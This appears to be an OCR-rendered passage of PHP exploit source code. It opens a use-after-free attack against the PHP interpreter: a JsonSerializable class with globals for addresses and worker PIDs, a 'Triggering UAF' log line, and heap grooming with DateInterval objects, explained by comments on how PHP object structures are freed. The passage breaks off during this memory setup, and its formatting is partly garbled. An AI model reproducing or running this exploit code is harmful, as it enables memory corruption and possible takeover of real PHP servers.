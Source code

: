 ```

# bucket

class Z implements JsonSerializable

{

public function jsonSerialize()

{

global $y, $addresses, $workers_pids;

```
 #
	# Setup memory
	#
    o('Triggering UAF');
	o('  Creating room and filling empty spaces');

	# Fill empty blocks to make sure our allocations will be contiguous
	# I: Since a lot of allocations/deallocations happen before the script
	# is ran, two variables instanciated at the same time might not be
	# contiguous: this can be a problem for a lot of reasons.
	# To avoid this, we instanciate several DateInterval objects. These
	# objects will fill a lot of potentially non-contiguous memory blocks,
	# ensuring we get "fresh memory" in upcoming allocations.
	$contiguous = [];
	for($i=0;$i&lt;10;$i++)
		$contiguous[] = new DateInterval('PT1S');

	# Create some space for our UAF blocks not to get overwritten
	# I: A PHP object is a combination of a lot of structures, such as
	# zval, zend_object, zend_object_handlers, zend_string, etc., which are
	# all allocated, and freed when the object is destroyed.